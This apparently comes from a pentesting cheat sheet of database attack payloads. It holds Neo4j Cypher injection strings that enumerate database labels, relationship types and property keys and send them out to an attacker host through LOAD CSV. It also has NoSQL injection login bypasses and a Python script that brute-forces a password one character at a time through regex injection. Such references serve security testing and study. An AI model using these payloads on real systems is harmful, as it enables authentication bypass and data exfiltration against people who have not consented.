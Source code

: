 ## mysqldump

```console
$ mysqldump --databases <DATABASE> -u<USERNAME> -p<PASSWORD>    // no space between parameter and input!
```

## Neo4j

### Cypher Injection

#### Enumerating Labels

```console
{"username":"' OR 1=1 WITH 1 as a  CALL db.labels() yield label LOAD CSV FROM 'http://<LHOST>/?label='+label as l RETURN 0 as _0 //","password":"foobar"}
```

#### Enumerating Relationship Types

```console
{"username":"' OR 1=1 WITH 1 as a CALL db.relationshipTypes() YIELD relationshipType LOAD CSV FROM 'http://<LHOST>/?rel='+relationshipType as l RETURN 0 as _0 //","password":"user"}
```

#### Enumerating Property Keys

```console
{"username":"' OR 1=1 WITH 1 as a CALL db.propertyKeys() YIELD propertyKey LOAD CSV FROM 'http://<LHOST>/?prop='+propertyKey as l RETURN 0 as _0 //","password":"user"}
```

## NoSQL Injection

```console
admin'||''==='
{"username": {"$ne": null}, "password": {"$ne": null} }
```

### Bruteforce Values

```python
import requests
import re
import string

http_proxy  = "http://127.0.0.1:8080"
proxyDict = {
              "http"  : http_proxy,
            }

url = "<RHOST>/?search=admin"

done = False
pos = 0
key = ""
while not done:
  found = False
  for _, c in enumerate(string.digits+string.ascii_lowercase+'-'):
    payload = url + "' %26%26 this.password.match(/^"+key+c+".*$/)%00"
    r = requests.get(payload, proxies=proxyDict)
    if "admin</a>" in r.text:
      found = True
      key += c
      print key
      break
```